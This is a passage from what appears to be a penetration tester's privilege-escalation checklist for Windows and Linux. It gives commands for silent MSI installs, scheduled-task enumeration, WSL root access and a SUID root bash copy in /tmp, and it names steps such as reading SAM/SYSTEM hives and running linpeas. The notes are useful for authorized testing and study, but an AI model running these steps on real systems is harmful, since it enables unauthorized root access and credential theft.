      # install .msi
     msiexec /quiet /qn /i C:\Users\Homer.NUCLEAR\Downloads\donuts.msi
    ```
*   [ ] &#x20;Scheduled tasks

    ```
     # using schtasks
     schtasks /query /fo LIST /v
     # filtering the output
     schtasks /query /fo LIST /v | findstr /v "\Microsoft"
     
     # using powershell
     Get-ScheduledTask | ft TaskName,TaskPath,State
     # filtering the output
     Get-ScheduledTask | where {$_.TaskPath -nolike "\Microsoft*"} | ft TaskName,TaskPath,State
    ```

    * [ ] &#x20;Executable file writeable
    * [ ] &#x20;Dependency writeable
* [ ] &#x20;Sensitive files readable
  * [ ] &#x20;SAM Hive
  * [ ] &#x20;SYSTEM Hive
*   [ ] &#x20;Windows Subsystem For Linux

    ```
     wsl whoami
     ./ubuntum2004.exe config --default-user root
     wsl whoami
     wsl python -c 'put here your command'
    ```
* [ ] Navigate to the fileystem and look for weird folders that contain weird scripts that run every so often, replace them if we can.&#x20;

#### Linux&#x20;

Principles to becoming root!

1. cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash
2. Adding a new user&#x20;
3. Make the user run commands without needing password sudo -l&#x20;

* [ ] Upgrade shell using socat, else python
* [ ] Are we in a dock container? If so this can be seen by doing an ls -la. See how to escape from the notes&#x20;
* [ ] Run linpeas.sh
* [ ] Run SUDO Killer if we have full SSH creds
* [ ] Run SUI3Emum
*   [ ] Go Thru the linpeas.sh output&#x20;
